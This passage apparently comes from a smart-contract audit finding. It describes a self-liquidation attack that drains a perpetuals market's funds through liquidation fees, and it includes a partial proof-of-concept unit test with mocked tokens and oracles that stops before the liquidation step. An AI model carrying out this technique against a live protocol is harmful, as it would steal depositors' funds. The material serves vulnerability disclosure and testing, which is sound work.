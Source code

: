 If liquidation bonus for liquidator is higher than trading fees from the position, then attacker can repeatedly self-liquidate until all market funds are withdrawn via liquidation fees.

### PoC

Add to `test/unit/Market.test.ts` in the `invariant violations` context:
```solidity
it('reduced position with collateral withdrawal makes liquidatable position', async () => {
  const riskParameter = { ...(await market.riskParameter()) }
  const riskParameterTakerFee = { ...riskParameter.takerFee }
  riskParameterTakerFee.linearFee = parse6decimal('0.003')
  riskParameter.takerFee = riskParameterTakerFee
  riskParameter.margin = parse6decimal('0.012')
  riskParameter.maintenance = parse6decimal('0.01')
  riskParameter.minMargin = parse6decimal('5')
  riskParameter.minMaintenance = parse6decimal('5')
  await market.updateRiskParameter(riskParameter)

  const COLLATERAL_USER = parse6decimal('30')
  const POSITION_USER = parse6decimal('10')
  const POSITION2_USER = parse6decimal('5')
  const COLLATERAL2_USER = parse6decimal('15')

  dsu.transferFrom.whenCalledWith(user.address, market.address, COLLATERAL_USER.mul(1e12)).returns(true)
  dsu.transferFrom.whenCalledWith(userB.address, market.address, COLLATERAL.mul(1e12)).returns(true)
  dsu.transferFrom.whenCalledWith(userC.address, market.address, COLLATERAL_USER.mul(1e12)).returns(true)

  await market
    .connect(userB)
    ['update(address,uint256,uint256,uint256,int256,bool)'](
      userB.address,
      POSITION,
      0,
      0,
      COLLATERAL,
      false,
    )

  await market
    .connect(user)
    ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, POSITION_USER, 0, COLLATERAL_USER, false)

  oracle.at.whenCalledWith(ORACLE_VERSION_2.timestamp).returns([ORACLE_VERSION_2, INITIALIZED_ORACLE_RECEIPT])
  oracle.at.whenCalledWith(ORACLE_VERSION_3.timestamp).returns([ORACLE_VERSION_3, INITIALIZED_ORACLE_RECEIPT])
  oracle.at.whenCalledWith(ORACLE_VERSION_4.timestamp).returns([ORACLE_VERSION_4, INITIALIZED_ORACLE_RECEIPT])
  oracle.status.returns([ORACLE_VERSION_2, ORACLE_VERSION_3.timestamp])

  // position opened. now partially close position and withdraw collateral
  dsu.transfer.whenCalledWith(user.address, COLLATERAL2_USER.mul(1e12)).returns(true)
  await market
    .connect(user)
    ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, POSITION2_USER, 0, -COLLATERAL2_USER, false)

  var loc = await market.locals(user.address);
  console.log("user collateral before liquidation: " + loc.collateral);

```